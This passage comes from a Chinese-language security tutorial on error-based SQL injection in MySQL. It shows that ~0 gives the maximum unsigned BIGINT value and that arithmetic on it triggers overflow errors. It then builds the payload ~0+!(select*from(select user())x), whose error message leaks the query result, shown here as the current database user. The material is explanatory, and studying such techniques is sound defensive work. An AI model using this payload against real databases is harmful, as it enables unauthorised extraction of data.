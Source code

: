 如果我们对数值0逐位取反，结果会怎么样呢？ 当然是得到一个无符号的最大BIGINT值，这一点是显而易见的。

```
mysql> select ~0;
+----------------------+
| ~0 |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

```

所以，如果我们对~0进行加减运算的话，也会导致BIGINT溢出错误。

```
mysql> select 1-~0;
ERROR 1690 (22003): BIGINT value is out of range in '(1 - ~(0))'
mysql> select 1+~0;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'

```

0x002 注入技术
==========

* * *

我的想法是，利用子查询引起BITINT溢出，从而设法提取数据。我们知道，如果一个查询成功返回，其返回值为0，所以对其进行逻辑非的话就会变成1，举例来说，如果我们对类似(`select*from(select user())x`)这样的查询进行逻辑非的话，就会有：

```
mysql> select (select*from(select user())x);
+-------------------------------+
| (select*from(select user())x) |
+-------------------------------+
| root@localhost |
+-------------------------------+
1 row in set (0.00 sec)
# Applying logical negation
mysql> select !(select*from(select user())x);
+--------------------------------+
| !(select*from(select user())x) |
+--------------------------------+
| 1 |
+--------------------------------+
1 row in set (0.00 sec)

```

是的，太完美了！ 所以说，只要我们能够组合好逐位取反和逻辑取反运算，我们就能利用溢出错误来成功的注入查询。

```
mysql> select ~0+!(select*from(select user())x);
ERROR 1690 (22003): BIGINT value is out of range in '(~(0) + (not((select 'root@localhost' from dual))))'

```
